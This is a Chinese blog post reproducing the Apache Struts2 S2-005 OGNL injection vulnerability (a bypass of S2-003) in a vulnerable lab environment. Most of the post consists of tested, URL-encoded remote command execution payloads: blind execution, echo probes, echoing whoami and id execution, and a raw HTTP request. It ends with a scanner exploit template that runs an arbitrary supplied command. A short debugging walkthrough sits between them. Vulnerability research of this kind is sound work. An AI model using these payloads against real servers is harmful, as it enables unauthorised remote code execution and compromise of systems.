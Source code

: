 ```yaml
---
title: s2-005复现分析
date: 2021-08-10 21:05:49
categories: 
- 代码审计
tags:
- struts2
- s2-005
# description: 描述
# comments: 是否可以评论（默认true：可评论）
cover: index.jpg
---
```


## 1.漏洞简介
官方描述：
https://cwiki.apache.org/confluence/display/WW/S2-005

s2-005是对s2-003的绕过，s2-003通过将#字符加入了黑名单来限制简单对象的执行，但是#字符可通过编码来绕过，比如：unicode编码（\u0023)或者8进制（\43）。
```java
('\u0023' + 'session\'user\'')(unused)=0wn3d

which will look as follows once URL encoded:

('\u0023'%20%2b%20'session\'user\'')(unused)=0wn3d
```


而后为了修复，官方增加安全配置禁止静态方法调用（allowStaticMethodAcces）和类方法执行（MethodAccessor.denyMethodExecution）等来修补。但是并没有完全解决该漏洞，ognl表达式依旧可以执行，通过ognl表达式将安全配置修改即可绕过再次导致了该漏洞。

### 影响范围：
Struts 2.0.0 - Struts 2.1.8.1

## 2.poc测试

网上复现大多推荐采用tomcat6，因为在高版本的tomcat中#.[]()等字符出现在高版本中可能会引发404错误。

这个可以通过编码来解决，不一定需要低版本tomct。

```shell
result=r"(#context[%22xwork.MethodAccessor.denyMethodExecution%22]=new java.lang.Boolean(false),#_memberAccess[%22allowStaticMethodAccess%22]= new java.lang.Boolean(true),@java.lang.Runtime@getRuntime().exec('open -a Calculator'))(meh)&z[(name)('meh')]=true"

# result=poc.replace('u0023','#')
# result=result.replace('u003d','=')
# result=result.replace('u005c','\\')
#
result = result.replace('#', '%23')
# result = result.replace('=', '\\75')
result = result.replace(' ', '%20')
result = result.replace('(', '%28')
result = result.replace('\'', '%27')
result = result.replace('"', '%22')
result = result.replace('\\', '%5C')
result = result.replace(')', '%29')
result = result.replace('[', '%5b')
result = result.replace(']', '%5d')

print(result)
```

以下是本人测试通过的poc。

vulhub环境：
tomcat版本： Apache Tomcat/8.5.14
jdk版本：1.8.0_121

无回显的命令执行：
```java
(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22calc%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1
```

有回显得poc探测：
```java
%28%27%5C43_memberAccess.allowStaticMethodAccess%27%29%28a%29=true&%28b%29%28%28%27%5C43context%5b%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27%5d%5C75false%27%29%28b%29%29&%28%27%5C43c%27%29%28%28%27%5C43_memberAccess.excludeProperties%5C75@java.util.Collections@EMPTY_SET%27%29%28c%29%29&%28g%29%28%28%27%5C43req%5C75@org.apache.struts2.ServletActionContext@getRequest%28%29%27%29%28d%29%29&%28i2%29%28%28%27%5C43xman%5C75@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28d%29%29&%28i97%29%28%28%27%5C43xman.getWriter%28%29.println%28540.8053*217.4633%29%27%29%28d%29%29&%28i99%29%28%28%27%5C43xman.getWriter%28%29.close%28%29%27%29%28d%29%29
```

有回显的命令执行：
```java
(%27%5c43_memberAccess.allowStaticMethodAccess%27)(a)=true&(b)((%27%5c43context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5c75false%27)(b))&(%27%5c43c%27)((%27%5c43_memberAccess.excludeProperties%5c75@java.util.Collections@EMPTY_SET%27)(c))&(g)((%27%5c43mycmd%5c75%5c%27whoami%5c%27%27)(d))&(h)((%27%5c43myret%5c75@java.lang.Runtime@getRuntime().exec(%5c43mycmd)%27)(d))&(i)((%27%5c43mydat%5c75new%5c40java.io.DataInputStream(%5c43myret.getInputStream())%27)(d))&(j)((%27%5c43myres%5c75new%5c40byte[51020]%27)(d))&(k)((%27%5c43mydat.readFully(%5c43myres)%27)(d))&(l)((%27%5c43mystr%5c75new%5c40java.lang.String(%5c43myres)%27)(d))&(m)((%27%5c43myout%5c75@org.apache.struts2.ServletActionContext@getResponse()%27)(d))&(n)((%27%5c43myout.getWriter().println(%5c43mystr)%27)(d))
```


```java
POST /example/HelloWorld.action HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; MAXTHON 2.0)
Host: IP:8080
Content-Length: 623

redirect:${%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27id%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}
```


s2-003。
https://github.com/0linlin0/Struts2_Vul_Debug

tomcat版本： Tomcat 7.0.109
jdk版本：1.7


有回显的paylaod:
```java
%28%27%5C43_memberAccess.allowStaticMethodAccess%27%29%28a%29%5C75true&%28b%29%28%28%27%5C43context%5b%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27%5d%5C75false%27%29%28b%29%29&%28%27%5C43c%27%29%28%28%27%5C43_memberAccess.excludeProperties%5C75@java.util.Collections@EMPTY_SET%27%29%28c%29%29&%28g%29%28%28%27%5C43mycmd%5C75%5C%27whoami%5C%27%27%29%28d%29%29&%28h%29%28%28%27%5C43myret%5C75@java.lang.Runtime@getRuntime%28%29.exec%28%5C43mycmd%29%27%29%28d%29%29&%28i%29%28%28%27%5C43mydat%5C75new%5C40java.io.DataInputStream%28%5C43myret.getInputStream%28%29%29%27%29%28d%29%29&%28j%29%28%28%27%5C43myres%5C75new%5C40byte%5b51020%5d%27%29%28d%29%29&%28k%29%28%28%27%5C43mydat.readFully%28%5C43myres%29%27%29%28d%29%29&%28l%29%28%28%27%5C43mystr%5C75new%5C40java.lang.String%28%5C43myres%29%27%29%28d%29%29&%28m%29%28%28%27%5C43myout%5C75@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28d%29%29&%28n%29%28%28%27%5C43myout.getWriter%28%29.println%28%5C43mystr%29%27%29%28d%29%29
```

有回显的poc:
```java
%28%27%5C43_memberAccess.allowStaticMethodAccess%27%29%28a%29=true&%28b%29%28%28%27%5C43context%5b%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27%5d%5C75false%27%29%28b%29%29&%28%27%5C43c%27%29%28%28%27%5C43_memberAccess.excludeProperties%5C75@java.util.Collections@EMPTY_SET%27%29%28c%29%29&%28g%29%28%28%27%5C43req%5C75@org.apache.struts2.ServletActionContext@getRequest%28%29%27%29%28d%29%29&%28i2%29%28%28%27%5C43xman%5C75@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28d%29%29&%28i97%29%28%28%27%5C43xman.getWriter%28%29.println%28540.8053*217.4633%29%27%29%28d%29%29&%28i99%29%28%28%27%5C43xman.getWriter%28%29.close%28%29%27%29%28d%29%29
```

## 3.漏洞分析跟踪

`docker-compose up -d`运行镜像会将docker里的war包拷贝到本地。

运行调试只需要将war包拷贝到tomcat的webapps，解压使用idea打开配置tomcat进行调试即可。
![](./1.png)

导入Libraries
![](./2.png)

### 断点位置

S2-005\WEB-INF\lib\xwork-core-2.1.6.jar!\com\opensymphony\xwork2\DefaultActionInvocation.class#invoke()194行
![](./3.png)

`this.resultCode = interceptor.getInterceptor().intercept(this);`这段代码就是去执行拦截器.




S2-005\WEB-INF\lib\xwork-core-2.1.6.jar!\com\opensymphony\xwork2\ognl\OgnlValueStack.class#setValue()128行

![](./4.png)

This.ognlUtil.setValue执行表达式。

## 4.psf exp编写

```java
name: poc-yaml-struts2-003-005-rce-attack
options:
  command: require
set:
  command1: urlencode(command)
rules:
  - method: GET
    path: ?(%27%5c43_memberAccess.allowStaticMethodAccess%27)(a)=true&(b)((%27%5c43context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5c75false%27)(b))&(%27%5c43c%27)((%27%5c43_memberAccess.excludeProperties%5c75@java.util.Collections@EMPTY_SET%27)(c))&(g)((%27%5c43mycmd%5c75%5c%27{{command1}}%5c%27%27)(d))&(h)((%27%5c43myret%5c75@java.lang.Runtime@getRuntime().exec(%5c43mycmd)%27)(d))&(i)((%27%5c43mydat%5c75new%5c40java.io.DataInputStream(%5c43myret.getInputStream())%27)(d))&(j)((%27%5c43myres%5c75new%5c40byte[51020]%27)(d))&(k)((%27%5c43mydat.readFully(%5c43myres)%27)(d))&(l)((%27%5c43mystr%5c75new%5c40java.lang.String(%5c43myres)%27)(d))&(m)((%27%5c43myout%5c75@org.apache.struts2.ServletActionContext@getResponse()%27)(d))&(n)((%27%5c43myout.getWriter().println(%5c43mystr)%27)(d))
    search: |
      (?ms)\r\n\r\n(?P<content>.*?)\n\0
    expression:
      response.status ==200
detail:
  author: h11ba1
  category: code-exec
  gevid: 
  extend: "{{content}}"
  level: 4
  suffix: .action|.do|.jsp|.page|null|!.php
  type: postcrawl
```

运行效果如下：
![4.1](4.1.jpg)





